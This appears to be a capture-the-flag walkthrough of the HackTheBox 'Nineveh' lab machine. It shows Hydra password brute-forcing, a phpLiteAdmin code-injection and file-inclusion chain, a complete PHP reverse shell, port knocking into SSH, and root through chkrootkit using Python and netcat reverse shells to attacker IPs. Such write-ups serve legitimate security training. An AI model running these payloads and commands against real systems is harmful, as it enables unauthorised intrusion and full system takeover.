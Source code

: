 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.43 -T5  
```
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Nineveh/assets/1.png">

# Enumeration
We'll start of with scanning for directories on port 80 and 443.

> I had troubles running gobuster against 443 due to an expired certificate. I tried it with dirbuster which did the trick. Later I found out that adding ```-k``` to your gopuster will disable certificate checks.

We found:
```
https://10.10.10.43/db
https://10.10.10.43/secure_notes
http://10.10.10.43/department
http://10.10.10.43/info.php

```

Hydra scan on https:
```
hydra -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -T 64 -V -l empty
```

Hydra scan on http:
```
hydra -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -T 64 -V -l admin
```
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Nineveh/assets/2.png">

Hydra bruteforced a password for each login form.

```
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
[443][http-post-form] host: 10.10.10.43   login: empty   password: password123
```

# SSH Key
The image on ```https://10.10.10.43/secure_notes``` contains a hidden messages. Running the file trough ```strings``` reveals a SSH private key.
But we are unable to connect as port 22 is closed. (At least for now)

# Exploiting RCE and LFI
After a quick Google search we learn that phpLiteAdmin version 1.9 is vulnerable to remote PHP code injection.
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Nineveh/assets/3.png">

> https://www.exploit-db.com/exploits/24044

We'll have to create a database and give it a ```php``` extension. Then we'll add a table and add a php command in the filed. We will use this to test if the exploit works.

<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Nineveh/assets/4.png">

At this moment it's not sure how we can access the database and hereby executing the php script.
Let continue with the other login at ```http://10.10.10.43/department```. Maybe we can chain some things together.

There appears to be local file inclusion vulnerability but if we change the address we get the message saying there's no note selected. 

If we rename the database so it includes ```ninevehNotes.txt``` we hopefully can bypass this.
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Nineveh/assets/5.png">

We can use the local file inclusion vulnerability in combination with the reverse code injection to run our test script:
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Nineveh/assets/6.png">

# Initial Foothold
Now let's change the script to a reverse php shell in order to get a shell on the host. 

```
<?php set_time_limit (0); $VERSION = "1.0"; $ip = "10.10.14.9"; $port = 4444; $chunk_size = 1400; $write_a = null; $error_a = null; $shell = "uname -a; w; id; /bin/bash -i"; $daemon = 0; $debug = 0; if (function_exists("pcntl_fork")) { $pid = pcntl_fork(); if ($pid == -1) { printit("ERROR: Cannot fork"); exit(1); } if ($pid) { exit(0); } if (posix_setsid() == -1) { printit("Error: Cannot setsid()"); exit(1); } $daemon = 1; } else { printit("WARNING: Failed to daemonise.  This is quite common and not fatal."); } chdir("/"); umask(0); $sock = fsockopen($ip, $port, $errno, $errstr, 30); if (!$sock) { printit("$errstr ($errno)"); exit(1); } $descriptorspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w")); $process = proc_open($shell, $descriptorspec, $pipes); if (!is_resource($process)) { printit("ERROR: Cannot spawn shell"); exit(1); } stream_set_blocking($pipes[0], 0); stream_set_blocking($pipes[1], 0); stream_set_blocking($pipes[2], 0); stream_set_blocking($sock, 0); printit("Successfully opened reverse shell to $ip:$port"); while (1) { if (feof($sock)) { printit("ERROR: Shell connection terminated"); break; } if (feof($pipes[1])) { printit("ERROR: Shell process terminated"); break; } $read_a = array($sock, $pipes[1], $pipes[2]); $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null); if (in_array($sock, $read_a)) { if ($debug) printit("SOCK READ"); $input = fread($sock, $chunk_size); if ($debug) printit("SOCK: $input"); fwrite($pipes[0], $input); } if (in_array($pipes[1], $read_a)) { if ($debug) printit("STDOUT READ"); $input = fread($pipes[1], $chunk_size); if ($debug) printit("STDOUT: $input"); fwrite($sock, $input); } if (in_array($pipes[2], $read_a)) { if ($debug) printit("STDERR READ"); $input = fread($pipes[2], $chunk_size); if ($debug) printit("STDERR: $input"); fwrite($sock, $input); } } fclose($sock); fclose($pipes[0]); fclose($pipes[1]); fclose($pipes[2]); proc_close($process); function printit ($string) {  if (!$daemon) { print "$string\n"; } } ?>
```

We now have a low privilege shell on the host as user ```www-date```. Running ```which python``` shows that Python is installed so we can stabilize the shell a bit:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

We can download and run ```linpeas.sh``` to do some enumerating. We spot a cronjob in ```/usr/sbin/report.sh``` but we don't have permissions to view or edit the file.

Strange thing is that we find port 22 being used but it didn't turn up during our initial portscan. Is there some mechanism preventing us from accessing it?

<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Nineveh/assets/7.png">

After some digging around we found out that ```knock``` is running as ```root```. 
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Nineveh/assets/8.png">

> Wiki: In computer networking, port knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall rules are dynamically modified to allow the host which sent the connection attempts to connect over specific port(s)

Now let's go look for some config files to see if we can get the knock key:
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Nineveh/assets/9.png">

Found it at ```/etc/knockd.conf```. (We also found it in ```/var/mail/armois```).
Now we can use that key to open up the port for us:
```
knock 10.10.10.43 571 290 911 && ssh -i rsa amrois@10.10.10.43
```
We're now logged in as ```amrois```

# Privilege Escalation
Let's investigate the cronjob that we found earlier. It deletes every file in the ```/report``` directory. These files are generated by ```chkrootkit``` which scans files for the existence of rootkits. There is known vulnerability where we can run a file to our liking, thus granting us root privileges. 

> https://www.exploit-db.com/exploits/33899

<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Nineveh/assets/10.png">

The file ```/tmp/update``` is executed by ckhrootkit as root. As this file does not currently exist, it is possible to put a bash script in its place and use it to grant us a root shell.

Let's craft our update file:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

chmod +x /tmp/update
```
Or:
```
echo -e "#!/bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4445 >/tmp/f" > /tmp/update

chmod +x /tmp/update
```
And have out netcat listener ready:
```
rlwrap nc -nlvp 4445
```
After a short moment our reverse shell as root will pop up.









